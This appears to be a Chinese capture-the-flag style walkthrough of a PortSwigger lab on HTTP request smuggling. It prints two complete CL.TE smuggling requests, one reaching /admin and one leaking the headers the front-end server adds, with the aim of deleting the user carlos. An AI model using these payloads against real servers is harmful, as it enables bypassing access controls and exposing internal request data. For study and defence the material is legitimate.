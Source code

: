 我们需要首先找出被前端服务器增加的字段，之后伪造本地请求并smuggling访问/admin并删除carlos账号

要达到前者的目的，portswigger的解决方案是这样的

- 找一个能够将请求参数的值输出到响应中的POST请求
- 把该POST请求中，找到的这个特殊的参数放在消息的最后面
- 走私这个请求，然后直接发送一个普通的请求，前端服务器对这个请求重写的一些字段就会显示出来

尝试前面的payload

```http
POST / HTTP/1.1
Host: aca21f881e7fa688c0e81584004700af.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=KmHiNQ45l7kqzLTPM6uBMpcgm8uesd5a
Content-Length: 28
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1


```

回显Admin interface only available if logged in as an administrator, or if requested from 127.0.0.1，我们利用搜索回显将前端服务器转发的请求头泄露出来，这里第二部分的CL=70用来控制泄露字节的多少

```http
POST / HTTP/1.1
Host: aca21f881e7fa688c0e81584004700af.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=VfYd3AGPB3TOUZNTRF2frj0c5kNJgBpw
Content-Length: 103
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Length: 70
Content-Type: application/x-www-form-urlencoded

search=123


```
